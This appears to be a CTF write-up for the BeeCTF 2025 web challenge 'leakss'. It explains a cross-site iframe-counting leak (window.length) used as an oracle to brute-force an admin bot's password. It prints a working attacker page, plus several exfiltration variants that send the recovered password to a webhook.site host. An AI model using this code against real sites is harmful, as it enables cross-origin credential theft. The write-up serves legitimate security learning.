

# leakss (upsolve, conceptually, only tested locally with http, not actual ctf environment)

**CTF:** BeeCTF 2025

**Category:** Web Exploitation

**Tags:** IFrame

**Date:** 2025

## Analysis
I minimally modified `app.py` to adapt for simple local environment (no docker).
```py
.
├── Dockerfile
├── README.md
├── app.py
├── attacker # not part of challenge
│   └── index.html # not part of challenge
├── requirements.txt
├── start.sh
└── templates
    ├── home.html
    └── login.html
```

First, observe `templates/home.html` and `/home` code since flag is printed there.
```html
<!DOCTYPE html>
<title>Home</title>
<h2>Welcome, {{ username }}!</h2>

<p>Congratz! Here's the flag: {{ flag }}</p>
 
<iframe srcdoc="<h1>Yes! {{password}} is a substring of your password</h1>">
  
  <a href="{{ url_for('logout') }}">Logout</a>
</iframe>
```
```py
@app.route('/')
def home():
    if 'username' in session:
        password = request.args.get('pass') or ""
        the_flag = ""
        if session['username'] == 'admin':
            the_flag = FLAG

        if password in session['password']:
            return render_template("home.html", username=session['username'], password=password, flag=the_flag)
        return render_template("home.html", username=session['username'], flag=the_flag)

    return redirect(url_for('login'))
```
Essentially, it checks username session and password substring check (by url parameter `?pass=`). `/home` page shows flag if logged in as admin and interestingly **adds an iframe if inputted `pass` is a substring of `current session password`**. We only care about `session['username']` equal to `'admin'` meaning `the_flag = FLAG`. Session is set in `/login`.
```py
@app.route('/login', methods=['GET', 'POST'])
def login():
    error = None
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username in USER_DATA and USER_DATA[username] == password:
            session['username'] = username
            session['password'] = password
            return redirect(url_for('home'))
        error = 'Invalid credentials'
    return render_template("login.html", error=error)
```
This works just like a normal login, ensuring username in the 3 valid user data we have and whether the password matches:
```py
USER_DATA = {
    'admin': admin_password,
    'asep': 'Admin#123',
    'beluga':'belugagans123'
}
```
We only care about logging in as `admin`, which is found in `/report`.
```py
@app.route('/report')
def report():
    visit_url = request.args.get('url') or ""

    if not visit_url:
        return "A URL must be provided for the bot to follow.", 400

    if not visit_url.startswith("http://") and not visit_url.startswith("https://"):
        return "Only http and https protocol allowed.", 400
    driver = None
    try:
        options = Options()
        options.add_argument('--headless')
        options.add_argument('--no-sandbox')
        options.add_argument('--disable-dev-shm-usage')
        options.add_argument('--disable-infobars')
        options.add_argument('--disable-background-networking')
        options.add_argument('--disable-default-apps')
        options.add_argument('--disable-extensions')
        options.add_argument('--disable-gpu')
        options.add_argument('--disable-sync')
        options.add_argument('--disable-translate')


        driver = webdriver.Firefox(options=options)
        driver.get("http://127.0.0.1:9999")
        driver.find_element(By.NAME, "username").send_keys("admin")          # Bot login as admin
        driver.find_element(By.NAME, "password").send_keys(admin_password)   # Bot login as admin
        driver.find_element(By.TAG_NAME, "button").click()
        time.sleep(1)

        print(f"[X] Request by: {request.remote_addr} | Bot is visiting: {visit_url}")
        driver.get(visit_url)                                                # Visit specified url
        time.sleep(30)

        message = "Success."
        status_code = 200
        ...
```
Typical CTF admin bot setup.

The whole flow is bot logging in as admin -> saves admin username & password sessions -> visits our inputted URL (`/report?url=`).

**Next intuition**: How to make bot access `/home` revealing flag / password substring match, and also expose that information to us? Making bot visit local ip address won't give us any control to the `/home` page. How about we control a page that iframes to `/home`? But then how to access information in IFrame?

**Other simple intuitions**: Why would there be an IFrame to reveal the password substring match, instead of a simple `<p>`? IFrame appears if inputted `pass` is a substring, otherwise it doesn't appear, this means we're trying to detect the presence/amount of an IFrame? Is there a difference compared to detecting presence of other elements?

Google searches like `js how many iframes in html` / `js is it possible to count iframe inside iframe` / `js all weird ways to detect iframe count vs detect paragraphs in html` lead to finding out about `window.length` and concepts like Same-Origin / Cross-Origin.

## Solution

The solution relies on IFrame counting (`window.length`) so that the password substring match works like an oracle (correct char = 1 IFrame, incorrect = 0 IFrame). This means we are able to get the password by testing possible characters by inputting to `?pass=`, getting correct character feedback from oracle, and accumulate each correct characters to form the whole password.

Password is `lebah` + `6 bytes * (2 hex/byte) = 12 random hex chars` as shown:
```py
admin_password = "lebah" + os.urandom(6).hex()
```
Hex alphabet is `0-9a-f` -> 16 possible chars. 12 random chars * 16 possibilities each = 192 calculations, which is viable with a `30 second` timeout.

`index.html` (for the actual CTF it should be hosted on https i think)
```html
<!doctype html>
<html>
<body>
<pre id="log"></pre>
<iframe id="f" style="display:none"></iframe>

<script>
const WEBHOOK = 'https://webhook.site/.../' // change
const TARGET = "http://127.0.0.1:9999/";
const HEX = "0123456789abcdef"; // can be generalized to any alphabet
let password = "lebah";

const frame = document.getElementById("f");
const log = document.getElementById("log");

function println(msg) {
    console.log(msg);
    log.textContent += msg + "\n";
}

function loadGuess(guess) {
    return new Promise(resolve => {
        frame.onload = () => {
            resolve(frame.contentWindow.length);
        };
        frame.src = `${TARGET}?pass=${encodeURIComponent(guess)}`;
    });
}

async function bruteforce() {
    println(`Starting with prefix: ${password}`);

    while (true) {
        let found = false;

        for (const c of HEX) {
            const guess = password + c;
            const length = await loadGuess(guess);

            println(`${guess} -> length=${length}`);

            if (length === 1) {
                password += c;
                println(`Found next character: ${c}`);
                println(`Current: ${password}`);
                found = true;
                break;
            }
        }

        if (!found) {
            println("FIN");
            break;
        }
    }

    println(`Recovered: ${password}`);
    let pass = encodeURIComponent(password);
    // method 1
    fetch(WEBHOOK+'?fetch='+pass);

    // method 2
    // fetch(WEBHOOK+'?nocors='+pass, {
    //     mode: "no-cors"
    // });

    // method 3
    // navigator.sendBeacon(WEBHOOK+'/sendbeacon',pass)

    // method 4
    // new Image().src=`${WEBHOOK}?image=${pass}`

    // method 5
    // fetch(WEBHOOK+'/fetchpost', {
    //   method: "POST",
    //   mode: "no-cors",
    //   headers: {
    //     "Content-Type": "text/plain"
    //   },
    //   body: pass
    // });

    // method 6
    // setTimeout(()=>location = `${WEBHOOK}?loc=${pass}`,5000)
}

bruteforce();
</script>
</body>
</html>
```

To test in local environment, run both `app.py` (http port 9999) and `attacker/index.html` (different port, i did http 8000), Then visit `http://127.0.0.1:9999/report?url=http://127.0.0.1:8000/`. Without `headless` argument, meaning firefox is visible: (logged in as admin first then visited port 8000)



After ~15 seconds, webhook shows a `GET` request to `https://webhook.site/.../?fetch=lebah0ae75deeedad`. I tested the 6 data exfiltration code variations and all went to webhook.

Some random information from GPT I was curious about:
| Method                         | Sends request |    Reads response   |      Leaves page     | Notes                            |
| ------------------------------ | :-----------: | :-----------------: | :------------------: | -------------------------------- |
| `fetch()`                      |       ✅       |  ✅ (if CORS allows) |           ❌          | Standard JS API                  |
| `fetch(...,{mode:"no-cors"})`  |       ✅       | ❌ (opaque response) |           ❌          | Good for one-way sending         |
| `new Image().src = ...`        |     ✅ GET     |          ❌          |           ❌          | Classic beacon                   |
| `location = ...`               |     ✅ GET     |         N/A         |           ✅          | Navigates away                   |
| `window.location.href = ...`   |     ✅ GET     |         N/A         |           ✅          | Same as above                    |
| `window.location.assign(...)`  |     ✅ GET     |         N/A         |           ✅          | Same                             |
| `window.open(...)`             |     ✅ GET     |         N/A         | Opens new window/tab | Original page remains            |
| `navigator.sendBeacon(...)`    |     ✅ POST    |          ❌          |           ❌          | Designed for telemetry           |
| HTML ``               |     ✅ GET     |          ❌          |           ❌          | Same as `new Image()`            |
| HTML `<script src>`            |     ✅ GET     |     JS executes     |           ❌          | Only useful if server returns JS |
| HTML `<link rel="stylesheet">` |     ✅ GET     |       CSS only      |           ❌          | Browser fetches stylesheet       |
| HTML `<iframe src>`            |     ✅ GET     |    SOP-restricted   |           ❌          | Can load arbitrary pages         |
| HTML `<video src>`             |     ✅ GET     |          ❌          |           ❌          | Browser fetches media            |
| HTML `<audio src>`             |     ✅ GET     |          ❌          |           ❌          | Browser fetches media            |
| HTML `<object data>`           |     ✅ GET     |    SOP-restricted   |           ❌          | Similar to iframe                |
| HTML `<embed src>`             |     ✅ GET     |    SOP-restricted   |           ❌          | Legacy                           |

After retrieving the admin password from webhook, login normally as admin and see the flag printed.
